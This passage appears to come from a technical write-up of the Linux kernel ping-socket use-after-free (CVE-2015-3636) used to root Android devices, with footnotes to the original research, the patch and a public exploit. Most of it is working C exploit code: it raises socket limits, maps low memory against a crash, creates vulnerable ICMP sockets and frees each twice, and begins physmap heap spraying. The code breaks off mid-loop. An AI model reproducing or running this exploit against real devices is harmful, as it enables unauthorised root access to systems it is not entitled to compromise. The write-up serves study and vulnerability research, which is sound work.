 ```c++
}
```

Here we just use `setrlimit` system call to maximize the socket counts that we can ask for. This can be quite essential for later heap spraying, as we have to create enough sockets to make sure the dynamic memory space can be overlapped with the physmap region.

Then we do simple protection in case our exploit crash the kernel in an early stage.

```c++
void protection(void)
{
	printf("[+] Start protection...\n");
	int i;
	void* protect = mmap(PROTECT_BASE, MAX_NULLMAP_SIZE, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0);
	if(MAP_FAILED == protect) errhandler("[!] protection().mmap");

	for(i = 0; i < MAX_NULLMAP_SIZE / PAGE_SIZE; i++)
		memset((char *)protect + PAGE_SIZE * i, 0x90, PAGE_SIZE);
	printf("[~] Done protection!\n");
}
```

The `PROTECT_BASE` in our experiments should be `0x200000` as the invalid memory dereference is `0x200200`. After we mmap that address space, the page fault will not be triggered (Assuming no SMAP protection).

So far so good, let's spraying those vulernable sockets now.

```c++
void spraying(void)
{
	printf("[+] Start socket spraying...\n");
	int i, ret;
	struct sockaddr _sockaddr1 = { .sa_family = AF_INET   };
	struct sockaddr _sockaddr2 = { .sa_family = AF_UNSPEC };

	for(i = 0; i < MAX_VULTRIG_SOCKS_COUNT; i++)
	{
		vultrig_socks[i] = socket(AF_INET, SOCK_DGRAM, IPPROTO_ICMP);
		if(vultrig_socks[i] < 0) errhandler("[!] spraying().socket-create vultrig sockets");

		ret = connect(vultrig_socks[i], &_sockaddr1, sizeof(_sockaddr1));
		if(ret < 0) errhandler("[!] spraying().connect-hashing the socket");
	}

	for(i = 0; i < MAX_VULTRIG_SOCKS_COUNT; i++)
	{
		ret = connect(vultrig_socks[i], &_sockaddr2, sizeof(_sockaddr2));
		if(ret < 0) errhandler("[!] spraying().connect-free once");

		ret = connect(vultrig_socks[i], &_sockaddr2, sizeof(_sockaddr2));
		if(ret < 0) errhandler("[!] spraying().connect-free twice");
	}

	printf("[~] Done socket spraying!\n");

	printf("[+] Start physmap spraying...\n");
  	memset(physmap_spray_pages,    0,   sizeof(physmap_spray_pages));
	memset(physmap_spray_children, 0, 	sizeof(physmap_spray_children));
  	physmap_spray_pages_count   =  0;
	for(i = 0; i < MAX_PHYSMAP_SPRAY_PROCESS; i++)
	{
		int j;
		void* mapped;
```

[^1]: Owe You Android, Yet Another Universal Root. [LINK](https://www.blackhat.com/docs/us-15/materials/us-15-Xu-Ah-Universal-Android-Rooting-Is-Back-wp.pdf)
[^2]: Pwnie for Best Privilege Escalation Bug, 2015. [LINK](https://pwnies.com/archive/2015/nominations/)
[^3]: Bug Patch. [LINK](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=a134f083e79fb4c3d0a925691e732c56911b4326)
[^4]: One workable exploit [LINK](https://github.com/4B5F5F4B/Exploits/tree/master/Linux/CVE-2015-3636)
[^5]: goldfish git repo [LINK](https://android.googlesource.com/kernel/goldfish/+/refs/heads/android-goldfish-3.10-k-dev)